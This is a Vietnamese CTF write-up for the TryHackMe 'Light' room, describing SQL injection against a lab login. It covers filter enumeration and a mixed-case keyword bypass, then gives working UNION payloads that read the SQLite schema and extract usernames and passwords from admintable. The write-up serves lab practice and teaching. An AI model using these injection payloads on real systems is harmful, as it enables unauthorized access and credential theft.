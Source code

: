```yaml
---
title: 'THM - Light'
category: 'ctf'
date: '01-02-2025'
---
```


# Intro

![alt text](light.png)

# Enumeration
- Đầu tiền thử các trường hợp các dấu:
    - Với dấu `'`
    ![alt text](light-1.png)
    - Với dấu `--`
    ![alt text](light-2.png)
- Rõ rằng với các exception kia ta loại được 1 mớ các dấu: `/* -- %0b`
- Thử với các từ khóa:
    - `select`
    ![alt text](light-3.png)
    - Tương tự ta có cùng kết quá với `union where from`
    - Nếu đổi sang `SelEct` kết quả là
    ![alt text](light-4.png)
- Vậy là cái filter này lọc không lỗi và có thể dùng bất cứ từ khóa nào.
# Exploitation
- Quay trở lại với việc thử dấu `'`, ta rõ ràng nhận ra cuối query có `LIMIT 30`
![alt text](light-1.png)
- Với cái đuôi LIMIT 30 này thì ta sử dụng loại chèn đuôi vì kết quả in ra không quá ảnh hưởng.
- Ta cũng có thể dự đoán được query sẽ gần gần như sau:
```sql
select password from [gì đó] where username = '[input]' limit 30
```
- Thử xem dùng `union` hay `;` thì ta có:
```sql
123'; SelEct '1
```
*(ở đây là nó treo luôn)*
![alt text](light-5.png)
```sql 
123' UniOn SelEct '1
```
- Vậy là ta sẽ sử dụng `union`
![alt text](light-6.png)
- Ta tiến hành kiểm tra dbms là loại gì và phiên bản gì, kết quả trả ra là SQLite với `123' unIon SElect sqlite_version() '`
![alt text](light-7.png)
- Ta lấy cấu trúc của DB bằng cú pháp
```sql 
123' uniOn SeLECT group_concat(sql) FRoM sqlite_master '
```
![alt text](light-8.png)
- Lấy `username` từ `admintable` rồi có flag là chuyện cỏn con rồi nhé
```sql
123' UniOn sElect group_concat(username) fRom admintable '

123' UniOn sElect password fRom admintable wheRe username = '[gì đó tự biết]
``` 


